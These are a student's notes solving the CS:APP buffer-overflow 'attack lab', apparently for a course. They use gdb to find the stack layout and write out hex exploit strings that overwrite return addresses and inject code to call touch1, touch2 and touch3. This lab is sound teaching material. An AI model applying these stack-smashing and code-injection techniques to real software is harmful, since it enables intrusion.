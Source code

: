 # Buffer Overflow Attack Notes

:dagger: => :computer:

## LEVEL 1

By testing how many bytes the `getbuf` can receive most, and reading the assembly code, we derive that it could take up to 55 characters wothout exiting abnormally.

The address of `touch1`: `00000000004016ed`. We need to insert it to `(%rsp)` right after it called `getbuf`.

The string we need to input in hex representation is shown below:

```txt
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 ed 16 40
```

Or... Add some magic.

```txt
54 68 65 20 62 69 67 20 62 72
6f 74 68 65 72 20 69 73 20 77
61 74 63 68 69 6e 67 20 68 69
6d 21 20 59 6f 75 27 6c 6c 20
62 65 20 73 65 6e 74 20 74 6f
20 31 30 31 2e 2e ed 16 40
```

By running the following command, we could input the target string to `stdin`:

```sh
./hex2raw < exploit.txt > exploit-raw.txt
./ctarget < exploit-raw.txt
```

We get the first hacking attempt done!

## Let's go to LEVEL 2

In this level. We have two things to do.

- Jump to cookie `0x4016d7`
- Change the parameter in touch2 to `cookie`

Find out the `%rsp` value in `getbuf`.

```sh
(gdb) b getbuf
Breakpoint 1 at 0x4016d7: file buf.c, line 12.
(gdb) run -q
Starting program: /mnt/c/star/computer-systems/target65/ctarget -q
Cookie: 0x110dfc17

Breakpoint 1, getbuf () at buf.c:12
(gdb) nexti
14      in buf.c
(gdb) disas
Dump of assembler code for function getbuf:
   0x00000000004016d7 <+0>:     sub    $0x38,%rsp
=> 0x00000000004016db <+4>:     mov    %rsp,%rdi
   0x00000000004016de <+7>:     callq  0x401927 <Gets>
   0x00000000004016e3 <+12>:    mov    $0x1,%eax
   0x00000000004016e8 <+17>:    add    $0x38,%rsp
   0x00000000004016ec <+21>:    retq   
End of assembler dump.
(gdb) p $rsp
$4 = (void *) 0x5567c608
```

`%rsp` in getbuf is `0x5567c608`.  
If `Gets` would return to it, we can inject exploit code in `%rsp` and then execute them.  
To call `touch2` while changing the parameter. We need to execute following instructions:

```s
mov $0x110dfc17, %rdi   # mov cookie to param1
pushq $0x40171b         # push address of touch2
ret
```

whose byte code is:

```s

asm-exploit.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 17 fc 0d 11 	mov    $0x110dfc17,%rdi
   7:	68 1b 17 40 00       	pushq  $0x40171b
   c:	c3                   	retq   
```

We need to inject these byte code to `%rsp` and overwrite the return address after 56 bytes.

```txt
48 c7 c7 17 fc 0d 11 68
1b 17 40 00 c3          /* exploit byte code, 13 bytes */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00
08 c6 67 55             /* after Gets, return to %rsp, 4 bytes */
```

Also, adding some magic :joy:

```txt
48 c7 c7 17 fc 0d 11 68
1b 17 40 00 c3          /* exploit byte code, 13 bytes */
48 6f 70 65 2c 61 20 67 /* Hope,a good thing. No good things ever dies */
6f 6f 64 20 74 68 69 6e
67 2e 20 4e 6f 20 67 6f
6f 64 20 74 68 69 6e 67
73 20 65 76 65 72 20 64
69 65 73
08 c6 67 55             /* after Gets, return to %rsp, 4 bytes */
```

## LEVEL 3

In this phase, we need to pass paremeter as a string. As usual, we need to jump to `touch3` in the first place.

The string should be stored in a save place. The reason is that after `getbuf` returned, its stack frame may be overwrriten by `hexmatch` and `strncmp` called in `touch3`. Actually, I find myself lucky enouch to find out a place that probably wouldn't be overwritten. That's a way to solve it...

Here's a better version.

The first thing we wanna do is to change the `cookie` into hex representation. My `cookie` is `0x110dfc17`, which is `31 31 30 64 66 63 31 37 00` in hex (mind the trailing zero).

Where is safe? `getbuf` is called by `test`, we might just as well save the string in stack frame of `test`.

How about the exploit code? Well, we just need to load the address of `cookie` string to `%rdi` and then return to `touch3`.

Now, just like what we do in LEVEL 2. We change the return address of `getbuf` to `%rsp`. By directly wrting `touch3`'s address to buffer, we can simply use a ret in exploit code to jump to it. And above all these, we encode the cookie string safely.

exploit code:

```s
leaq 8(%rsp),%rdi    # when executing, cookie is at %rsp+8
ret
```

```txt
48 8d 7c 24 08 c3 00 00 /* exploit code, 6 bytes */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
08 c6 67 55 00 00 00 00 /* return to %rsp (exploit code) */
f6 17 40 00 00 00 00 00 /* return to touch3 */
31 31 30 64 66 63 31 37
00                      /* string cookie, 9 bytes */
```
